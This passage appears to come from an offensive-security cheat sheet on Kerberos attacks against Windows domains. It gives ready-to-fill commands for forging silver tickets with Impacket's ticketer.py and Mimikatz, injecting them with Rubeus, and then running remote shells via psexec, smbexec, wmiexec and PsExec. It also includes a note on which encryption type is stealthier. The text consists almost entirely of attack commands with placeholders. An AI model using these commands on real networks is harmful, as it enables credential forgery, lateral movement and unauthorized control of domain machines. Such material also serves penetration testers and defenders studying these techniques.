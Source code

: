 Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Silver ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```
